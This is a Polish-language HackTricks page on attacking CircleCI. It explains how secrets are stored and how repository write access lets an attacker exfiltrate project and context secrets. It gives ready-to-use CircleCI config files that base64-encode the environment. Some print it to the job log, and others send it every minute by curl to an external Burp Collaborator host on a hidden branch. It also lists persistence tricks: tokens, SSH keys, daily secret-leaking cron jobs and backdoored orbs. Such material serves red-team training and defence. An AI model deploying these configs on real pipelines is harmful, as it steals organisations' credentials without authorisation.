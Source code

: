 # Bezpieczeństwo CircleCI

<details>

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Podstawowe informacje

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) to platforma do **ciągłej integracji**, gdzie możesz **definiować szablony** wskazujące, co chcesz, aby zrobiła z pewnym kodem i kiedy to zrobić. W ten sposób możesz **automatyzować testowanie** lub **wdrożenia** bezpośrednio **z gałęzi głównej repozytorium** na przykład.

## Uprawnienia

**CircleCI** **dziedziczy uprawnienia** z githuba i bitbucketa związane z **kontem**, które się loguje.\
W moich testach sprawdziłem, że o ile masz **uprawnienia do zapisu w repozytorium na githubie**, będziesz mógł **zarządzać ustawieniami projektu w CircleCI** (ustawiać nowe klucze ssh, pobierać klucze api projektu, tworzyć nowe gałęzie z nowymi konfiguracjami CircleCI...).

Jednakże, musisz być **administratorem repozytorium**, aby **przekształcić repozytorium w projekt CircleCI**.

## Zmienne środowiskowe i Sekrety

Zgodnie z [**dokumentacją**](https://circleci.com/docs/2.0/env-vars/) istnieją różne sposoby **ładowania wartości do zmiennych środowiskowych** w ramach przepływu pracy.

### Wbudowane zmienne środowiskowe

Każdy kontener uruchomiony przez CircleCI będzie zawsze miał [**określone zmienne środowiskowe zdefiniowane w dokumentacji**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) takie jak `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` lub `CIRCLE_USERNAME`.

### Tekst czysty

Możesz je zadeklarować w tekście czystym wewnątrz **polecenia**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Możesz je zadeklarować w czystym tekście wewnątrz **środowiska uruchomieniowego**:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Możesz je zadeklarować w czystym tekście wewnątrz **środowiska build-job**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Możesz zadeklarować je w czystym tekście wewnątrz **środowiska kontenera**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Tajne projekty

To są **sekrety**, które będą dostępne tylko dla **projektu** (dla **dowolnej gałęzi**).\
Możesz je zobaczyć zadeklarowane w _https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Funkcjonalność "**Importuj zmienne**" pozwala na **importowanie zmiennych z innych projektów** do tego.
{% endhint %}

### Tajne kontekstu

To są tajne informacje, które są **ogólnodostępne dla organizacji**. Domyślnie **każde repozytorium** będzie miało dostęp do dowolnego tajnego przechowywanego tutaj:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Należy jednak zauważyć, że można **wybrać inną grupę (zamiast Wszyscy członkowie)**, aby udzielić dostępu do tajnych informacji tylko określonym osobom.\
Obecnie jest to jedna z najlepszych metod **zwiększenia bezpieczeństwa tajnych informacji**, aby nie pozwalać każdemu na dostęp do nich, ale tylko wybranym osobom.
{% endhint %}

## Ataki

### Wyszukiwanie jawnie zapisanych tajemnic

Jeśli masz **dostęp do VCS** (takiego jak github), sprawdź plik `.circleci/config.yml` w **każdym repozytorium na każdej gałęzi** i **szukaj** potencjalnych **jawnie zapisanych tajemnic** przechowywanych tam.

### Zmienne środowiskowe tajnych informacji i wyliczanie kontekstu

Sprawdzając kod, możesz znaleźć **wszystkie nazwy tajnych informacji**, które są **używane** w każdym pliku `.circleci/config.yml`. Możesz także uzyskać **nazwy kontekstów** z tych plików lub sprawdzić je w konsoli internetowej: _https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_.

### Wyciek tajnych informacji projektu

{% hint style="warning" %}
Aby **wyciec wszystkie** tajne informacje projektu i kontekstu, wystarczy mieć **uprawnienia DO ZAPISU** do **tylko 1 repozytorium** w całej organizacji github (_i twoje konto musi mieć dostęp do kontekstów, ale domyślnie każdy może uzyskać dostęp do każdego kontekstu_).
{% endhint %}

{% hint style="danger" %}
Funkcjonalność "**Importuj zmienne**" pozwala na **importowanie zmiennych z innych projektów** do tego. Dlatego atakujący mógłby **zaimportować wszystkie zmienne projektowe ze wszystkich repozytoriów** a następnie **wyciec wszystkie razem**.
{% endhint %}

Wszystkie tajne informacje projektu zawsze są ustawione w środowisku zadań, więc po prostu wywołanie env i zaszyfrowanie go w base64 spowoduje wyciek tajnych informacji w **konsoli dziennika prac** w **interfejsie webowym workflows**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Jeśli **nie masz dostępu do konsoli internetowej**, ale masz **dostęp do repozytorium** i wiesz, że jest używany CircleCI, możesz po prostu **utworzyć przepływ pracy**, który jest **uruchamiany co minutę** i **wyprowadza tajne informacje do zewnętrznego adresu**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Wyciekaj tajemnice kontekstu

Musisz **określić nazwę kontekstu** (to spowoduje również wyciek projektowych tajemnic):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Jeśli **nie masz dostępu do konsoli internetowej**, ale masz **dostęp do repozytorium** i wiesz, że jest używany CircleCI, możesz po prostu **zmodyfikować pracę**, która jest **uruchamiana co minutę** i **wycieka tajne informacje do zewnętrznego adresu**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Po prostu utworzenie nowego pliku `.circleci/config.yml` w repozytorium **nie wystarczy, aby uruchomić proces budowania w CircleCI**. Musisz **włączyć go jako projekt w konsoli CircleCI**.
{% endhint %}

### Ucieczka do Chmury

**CircleCI** daje Ci opcję uruchamiania **swoich procesów budowania na ich maszynach lub na Twoich własnych**.\
Domyślnie ich maszyny znajdują się w GCP, i początkowo nie będziesz w stanie znaleźć nic istotnego. Jednak jeśli ofiara uruchamia zadania na **swoich własnych maszynach (potencjalnie w środowisku chmurowym)**, możesz znaleźć **punkt końcowy metadanych chmury z ciekawymi informacjami**.

Zauważ, że w poprzednich przykładach wszystko było uruchamiane wewnątrz kontenera Docker, ale możesz także **poprosić o uruchomienie maszyny wirtualnej VM** (która może mieć inne uprawnienia chmurowe):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
lub nawet kontener Docker z dostępem do zdalnej usługi Docker:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Wytrwałość

* Możliwe jest **utworzenie tokenów użytkownika w CircleCI** w celu uzyskania dostępu do punktów końcowych API z uprawnieniami użytkownika.
* _https://app.circleci.com/settings/user/tokens_
* Możliwe jest **utworzenie tokenów projektów** w celu uzyskania dostępu do projektu z uprawnieniami nadanymi tokenowi.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Możliwe jest **dodanie kluczy SSH** do projektów.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Możliwe jest **utworzenie zadania cron w ukrytej gałęzi** w nieoczekiwanym projekcie, który **wycieka** wszystkie **zmienne środowiskowe kontekstu** codziennie.
* Lub nawet utworzenie w gałęzi / zmodyfikowanie znanego zadania, które będzie **wyciekać** wszystkie konteksty i **sekrety projektów** codziennie.
* Jeśli jesteś właścicielem githuba, możesz **zezwolić na niezweryfikowane orby** i skonfigurować je w zadaniu jako **tylną furtkę**
* Możesz znaleźć **podatność na wstrzykiwanie poleceń** w pewnym zadaniu i **wstrzyknąć polecenia** za pomocą **sekretu**, zmieniając jego wartość.
